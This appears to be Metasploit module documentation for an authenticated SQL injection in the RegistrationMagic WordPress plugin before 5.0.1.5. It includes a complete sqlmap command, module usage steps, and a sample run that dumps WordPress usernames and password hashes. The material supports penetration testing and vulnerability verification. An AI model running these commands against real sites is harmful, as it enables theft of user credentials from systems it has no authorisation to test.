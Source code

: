 ## Vulnerable Application

RegistrationMagic, a WordPress plugin,
prior to 5.0.1.5 is affected by an authenticated SQL injection via the
`task_ids[]` parameter.

The plugin can be downloaded
[here](https://downloads.wordpress.org/plugin/custom-registration-form-builder-with-submission-manager.5.0.1.5.zip)

This module slightly replicates sqlmap running as:

```
sqlmap -u 'http://<IP>/wp-admin/admin-ajax.php?page=rm_ex_chronos_edit_task&rm_form_id=2' --data="action=rm_chronos_ajax&rm_chronos_ajax_action=duplicate_tasks_batch&task_ids[]=2" -p "task_ids[]" --technique T -T wp_users -C user_login,user_pass --dump --dbms mysql --cookie '<cookie>'
```

## Verification Steps

1. Install the plugin, use defaults
2. Start msfconsole
3. Do: `use auxiliary/scanner/http/wp_registrationmagic_sqli`
4. Do: `set rhosts [ip]`
5. Do: `run`
6. You should get the users and hashes returned.

## Options

### ACTION: List Users

This action lists `COUNT` users and password hashes.

### COUNT

If action `List Users` is selected (default), this is the number of users to enumerate.
The larger this list, the more time it will take.  Defaults to `1`.

### USERNAME

The username to login with. Defaults to ``.

### PASSWORD

The password to login with. Defaults to ``.

## Scenarios

### Registration Magic 5.0.1.5 on Wordpress 5.7.5 on Ubuntu 20.04

```
[*] Processing registrationmagic.rb for ERB directives.
resource (registrationmagic.rb)> use auxiliary/scanner/http/wp_registrationmagic_sqli
resource (registrationmagic.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (registrationmagic.rb)> set verbose true
verbose => true
resource (registrationmagic.rb)> set username admin
username => admin
resource (registrationmagic.rb)> set password admin
password => admin
resource (registrationmagic.rb)> run
[*] Checking /wp-content/plugins/custom-registration-form-builder-with-submission-manager/readme.txt
[*] Found version 5.0.1.5 in the plugin
[+] Vulnerable version of RegistrationMagic detected
[*] Using formid of: 74
[*] Enumerating Usernames and Password Hashes
[*] {SQLi} Executing (select group_concat(GPc) from (select cast(concat_ws(';',ifnull(user_login,''),ifnull(user_pass,'')) as binary) GPc from wp_users limit 3) PfXJX)
[*] {SQLi} Encoded to (select group_concat(GPc) from (select cast(concat_ws(0x3b,ifnull(user_login,repeat(0xc,0)),ifnull(user_pass,repeat(0x24,0))) as binary) GPc from wp_users limit 3) PfXJX)
[*] {SQLi} Time-based injection: expecting output of length 124
[+] wp_users
========

 user_login  user_pass
 ----------  ---------
 admin       $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0
 admin2      $P$BNS2BGBTHmjIgV0nZWxAZtRfq1l19p1
 editor      $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
